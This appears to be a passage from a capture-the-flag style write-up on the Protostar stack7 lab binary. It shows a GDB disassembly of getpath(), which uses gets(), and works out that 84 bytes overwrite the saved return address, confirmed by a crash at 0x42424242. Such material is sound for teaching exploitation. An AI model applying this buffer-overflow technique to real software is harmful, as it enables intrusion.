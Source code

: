 We take a look at the disassembly of `getpath()`.

```shell
(gdb) disass getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   %ebp
0x080484c5 <getpath+1>: mov    %esp,%ebp
0x080484c7 <getpath+3>: sub    $0x68,%esp
0x080484ca <getpath+6>: mov    $0x8048620,%eax
0x080484cf <getpath+11>:        mov    %eax,(%esp)
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    0x8049780,%eax
0x080484dc <getpath+24>:        mov    %eax,(%esp)
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    -0x4c(%ebp),%eax
0x080484e7 <getpath+35>:        mov    %eax,(%esp)
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    0x4(%ebp),%eax
0x080484f2 <getpath+46>:        mov    %eax,-0xc(%ebp)
0x080484f5 <getpath+49>:        mov    -0xc(%ebp),%eax
0x080484f8 <getpath+52>:        and    $0xb0000000,%eax
0x080484fd <getpath+57>:        cmp    $0xb0000000,%eax
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    $0x8048634,%eax
0x08048509 <getpath+69>:        mov    -0xc(%ebp),%edx
0x0804850c <getpath+72>:        mov    %edx,0x4(%esp)
0x08048510 <getpath+76>:        mov    %eax,(%esp)
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        movl   $0x1,(%esp)
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    $0x8048640,%eax
0x08048529 <getpath+101>:       lea    -0x4c(%ebp),%edx
0x0804852c <getpath+104>:       mov    %edx,0x4(%esp)
0x08048530 <getpath+108>:       mov    %eax,(%esp)
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    -0x4c(%ebp),%eax
0x0804853b <getpath+119>:       mov    %eax,(%esp)
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
End of assembler dump.
```

Similar to stack 6, `buffer` starts at `-0x4c(%ebp)` and we need to write 84
bytes to overwrite `$eip`. We can confirm this in GDB.

```shell
(gdb) run
Starting program: /opt/protostar/bin/stack7
input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
